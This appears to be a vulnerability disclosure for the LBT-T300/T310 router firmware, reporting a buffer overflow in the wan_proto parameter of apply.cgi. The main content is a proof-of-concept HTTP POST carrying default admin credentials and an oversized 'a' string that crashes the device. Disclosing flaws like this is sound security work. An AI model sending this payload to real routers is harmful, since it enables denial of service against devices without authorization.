


# LBT-T300 Buffer Overflow

Vulnerability description: LBT-T300-T310 v2.2.3.6 of Shenzhen Rio Tinto Technology Co., Ltd. was found to have a buffer overflow at/appy.cgi  in/appy.cgi through wan_proto parameter.
function call chain:
main()-->sub_40B6F0()-->start_single_service()-->start_wan()
main()-->sub_40B6F0()-->start_single_service()-->start_workmode()-->start_wan()

### wan_proto

#### Vulnerability analysis

Due to the lack of data length restrictions of the wan_proto parameter in function start_wan, a buffer overflow vulnerability is created.




Conduct reverse analysis on the firmware by debugging and packaging it through the serial port




#### Payload

```payload
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 46205
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/wan_3g.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

wan_proto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&submit_button=wan_3g&change_action=&action=Apply&wan_dns_enable=0&auto_dial_3g=1&ppp_dial_only=0&local_ppp_ip_enable_3g=0&auto_sel3g=0&selectdail_uart=0&save_3g_networktype=0&selectdail_uart1=0&ISP_3g=0&apn_name_3g=123&pin_code_3g=1234&dial_number_3g=12345&username_3g=123&password_3g=1234567&pppd_auth=3&vpdn_type=0&auto_dial=on&dial_3g_failed_total=60&extend_atcmd=&wan_dns1=&wan_dns2=&Network_ChinaTele=2&Network_ChinaMobile=0&Network_ChinaUnicom=0&UserDefinedNetworkTypes=0
```


